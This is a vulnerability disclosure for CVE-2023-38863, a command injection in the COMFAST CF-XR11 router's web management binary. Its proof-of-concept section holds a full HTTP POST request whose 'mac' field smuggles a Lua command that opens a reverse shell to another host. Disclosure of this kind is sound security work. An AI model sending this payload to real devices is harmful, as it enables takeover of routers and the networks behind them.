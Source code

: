# CVE-ID

CVE-2023-38863

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_410074`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `ifname` or `mac` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_410074`, the program uses function `blobmsg_parse` to obtain the content of parameter `ifname`, `mac`  which are sent by `POST` request. On line 24, the attacker can complete command execution by controlling the `ifname`  or `mac` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc HTTP/1.1
Host: 192.168.0.1
Content-Length: 172
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"ifname":"127.0.0.1",
	"mac":
"1 `lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

